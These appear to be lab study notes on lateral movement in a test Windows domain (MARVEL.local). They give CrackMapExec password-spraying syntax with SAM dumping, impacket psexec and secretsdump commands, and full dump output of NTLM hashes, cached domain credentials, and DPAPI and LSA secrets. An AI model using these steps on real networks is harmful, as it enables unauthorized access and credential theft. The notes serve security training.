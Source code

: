 **Pass the Pword/Pass the Hash**
<br/>
Allows lateral movement throughout the network<br/>
<br/>
You can crack hashes and pas the pass word around loolking for local accounts on machines with that user name and password.<br/>
<br/>
OR<br/>
<br/>
you can just pass the passsword hash around again looking for other machines that that account has a local account<br/>
<br/>
<br/>
INSTALL CRACKMAPEXEC<br/>
<br/>
sudo apt install crackmapexec<br/>
<br/>
Syntax &gt; sudo crackmapexec smb 192.168.247.0/24 -u lhowlette -d MARVEL.local -p Password1<br/>
<br/>
New change smb required before IP<br/>
-u = user name<br/>
-d = domain<br/>
-p = cracked password<br/>
<br/>
<br/>
<img height="126" src="image.png" width="950"/><br/>
<br/>
<br/>
we had wolverine... now we potentialy have Phoenix<br/>
Didnt get the DC<br/>
<br/>
&quot;Pwn3d!&quot; = has access<br/>
<br/>
adding --sam to end of command will attempt to dump sam file of pwn3d machines<br/>
<br/>
We can try using the creds now to move to other machines machines using psexec (noisy)<br/>
<br/>
syntax &gt; impacket-psexec.py &lt;domain&gt;/&lt;username&gt;:&lt;password&gt;@&lt;IP&gt;<br/>
<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
<br/>
<br/>
<br/>
NOTE &gt; Password praying is ok on local accounts.... be careful with domain accounts due to lockout policy with failed attempts<br/>
<br/>
<br/>
DUMPING HASHES<br/>
<br/>
SECRETSDUMP.py &gt; also part of impacket tool kit<br/>
<br/>
Dump for all machines you have a log on for. In this case its .134 and .135<br/>
<br/>
syntax &gt; impacket-secretsdump.py &lt;domain&gt;/&lt;username&gt;:&lt;password&gt;@&lt;IP&gt;<br/>
<br/>
<br/>
┌──(kali㉿kali)-[~]<br/>
└─$ impacket-secretsdump marvel.local/lhowlette:Password1@<b>192.168.247.134</b>                                                  130 ⨯<br/>
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation<br/>
<br/>
[*] Service RemoteRegistry is in stopped state<br/>
[*] Service RemoteRegistry is disabled, enabling it<br/>
[*] Starting service RemoteRegistry<br/>
[*] Target system bootKey: 0x26885065905c4cd9a294c18b2574a70b<br/>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:53dfc04147dd08ee2761f307750ebaeb:::<br/>
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
[*] Dumping cached domain logon information (domain/username:hash)<br/>
MARVEL.LOCAL/jgrey:$DCC2$10240#jgrey#858435f89fadfae0f8a08747508fc5a4<br/>
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c<br/>
[*] Dumping LSA Secrets<br/>
[*] $MACHINE.ACC <br/>
MARVEL\PHOENIX$:aes256-cts-hmac-sha1-96:cac14c45978c5aa41646279d5620edabd36b1820910c51adf2ffe9fd08368ac3<br/>
MARVEL\PHOENIX$:aes128-cts-hmac-sha1-96:7f26a554f5a1888a46890d6f96f3d977<br/>
MARVEL\PHOENIX$:des-cbc-md5:91d66146fe5280f4<br/>
MARVEL\PHOENIX$:plain_password_hex:600048003a0060004a005b0039002100570071005d0058002d0044006c00520034002a005c00650045005f003800200044003e005c00240028002b003600230049003e00640043007a0050003e005600390059002c00760067004e00320053003f006b002e003b00310027002000750036003d004a00730021003e0065005e004600670058004d006c0079005b00380069005b006b0062005a004d0021002500290026005f00460049007400490039002a002b0053005f004800200057006f00700037003d003f0061004d0076005d004f0035005300380033005d002c006a00420067004100630046002e0049005600<br/>
MARVEL\PHOENIX$:aad3b435b51404eeaad3b435b51404ee:b654bec2104e1e1c2a7fc5e6c1e2804b:::<br/>
[*] DPAPI_SYSTEM <br/>
dpapi_machinekey:0xd8f493402f1f6151f3eedd0b64e2177f37b67af4<br/>
dpapi_userkey:0x8a0d772f4656c4ed15841f572fc7b10456a32ca8<br/>
[*] NL$KM <br/>
0000  52 B4 6F 5C D0 1C 86 B6 7D B4 0D B2 55 DC AD B3  R.o\....}...U...<br/>
0010  E9 48 2E DB 70 0D C2 A9 77 39 BF 1B 33 32 DA 53  .H..p...w9..32.S<br/>
0020  87 9B E6 95 A6 D0 71 63 A1 91 24 03 37 49 46 F9  ......qc..$.7IF.<br/>
0030  A0 EA D0 17 B2 11 A3 8C F3 0D 3F 7A 55 7B 27 5C  ..........?zU{'\<br/>
NL$KM:52b46f5cd01c86b67db40db255dcadb3e9482edb700dc2a97739bf1b3332da53879be695a6d07163a1912403374946f9a0ead017b211a38cf30d3f7a557b275c<br/>
[*] Cleaning up... <br/>
[*] Stopping service RemoteRegistry<br/>
[*] Restoring the disabled state for service RemoteRegistry<br/>
<br/>
<br/>
<br/>
┌──(kali㉿kali)-[~]<br/>
└─$ impacket-secretsdump marvel.local/lhowlette:Password1@<b>192.168.247.135</b>                                                  130 ⨯<br/>
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation<br/>
<br/>
[*] Service RemoteRegistry is in stopped state<br/>
[*] Service RemoteRegistry is disabled, enabling it<br/>
[*] Starting service RemoteRegistry<br/>
[*] Target system bootKey: 0xf8687806db3f3598afa50073dda79d7c<br/>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:43e415a31348a644f60616a676d7554f:::<br/>
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
[*] Dumping cached domain logon information (domain/username:hash)<br/>
MARVEL.LOCAL/lhowlette:$DCC2$10240#lhowlette#3061a80908a0a5f21745665af4c14818<br/>
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c<br/>
[*] Dumping LSA Secrets<br/>
[*] $MACHINE.ACC <br/>
MARVEL\WOLVERINE$:aes256-cts-hmac-sha1-96:64b4b2120df07723fc45a64872619e8d5daff194a165536c97020f2698d68ebd<br/>
MARVEL\WOLVERINE$:aes128-cts-hmac-sha1-96:5bb4f3917bc219475ea6c7a15a1c78ae<br/>
MARVEL\WOLVERINE$:des-cbc-md5:7557643e8a45c2da<br/>
MARVEL\WOLVERINE$:plain_password_hex:610029004300590071003500620068002c00790023007900650055002400790033007600760076004b0058006f003e003c003d005d00460020002f00200052006b0041002a0024004f005f002e0076002b00450050005d00720060003a007a0042004100320034007900560078004d005c0038004c006100760030005e002700310033003400270026004c00750034007800690067007a006a00760071006f007000480033007300240037002a002f00420056002500480078004000650043004700690030004b0023005d0071004d004f005f005800380075004c002a00450022003a002c0042004b00460024006f00<br/>
MARVEL\WOLVERINE$:aad3b435b51404eeaad3b435b51404ee:ab3c964e61b4dda7c9393b916f1fea97:::<br/>
[*] DPAPI_SYSTEM <br/>
dpapi_machinekey:0x9620cddd37c0f1ab123a02dbb10555099a48df28<br/>
dpapi_userkey:0xfd38edd50abbb2c3f1d297a3651dac77559f65d1<br/>
[*] NL$KM <br/>
0000  3D 70 8D D2 CB 63 85 03 68 9D 9C BE CA 4A CB AE  =p...c..h....J..<br/>
0010  AA CB B0 BA 3E 3D 28 C6 7E EF C9 19 23 74 28 BC  ....&gt;=(.~...#t(.<br/>
0020  6E 4B F4 54 AF E0 36 F1 75 51 B0 42 FA 09 03 8A  nK.T..6.uQ.B....<br/>
0030  FC 24 F6 E0 43 01 DE 8B 22 12 CA 59 78 5B 1F 6F  .$..C...&quot;..Yx[.o<br/>
NL$KM:3d708dd2cb638503689d9cbeca4acbaeaacbb0ba3e3d28c67eefc919237428bc6e4bf454afe036f17551b042fa09038afc24f6e04301de8b2212ca59785b1f6f<br/>
[*] Cleaning up... <br/>
[*] Stopping service RemoteRegistry<br/>
[*] Restoring the disabled state for service RemoteRegistry<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
NOTE &gt; Can pass NTLM hashes <br/>
CAN NOT pass NTLM2 hashes<br/>
<br/>
